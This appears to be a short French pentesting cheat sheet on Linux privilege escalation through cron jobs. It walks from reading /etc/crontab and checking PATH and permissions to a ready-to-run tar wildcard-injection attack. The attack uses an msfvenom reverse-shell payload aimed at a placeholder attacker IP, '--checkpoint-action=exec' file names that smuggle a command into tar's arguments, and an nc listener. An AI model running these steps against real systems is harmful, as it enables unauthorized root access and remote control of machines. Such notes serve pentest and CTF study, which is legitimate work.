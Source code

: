 # Cron Job

Afficher les taches planifier.

```sh
cat /etc/crontab
```

## Exploitation

- Verifier la variable PATH qui afficher par ou le systeme vas chercher les executables.
Si c'est dans un repertoir ou nous avons les acces en ecriture, nous pouvons ursuper l'un des jobs en cours et ecrire nos propre shell

- Determiner l'utilisateur qui execute la tache 
- Verifier le chemin relatif ou absolut des fichiers 
- Verifie si vous avez les autorisation de lecteur ou d'ecrite sur les programmes en cour

**Exemple d'exploitation generic avec tar**

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ATTACKER-IP>> LPORT=4444 -f elf -o shell.elf
```

```sh
chmod +x /home/user/shell.elf
```

```sh
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf
```

```sh
nc -nvlp 4444
```

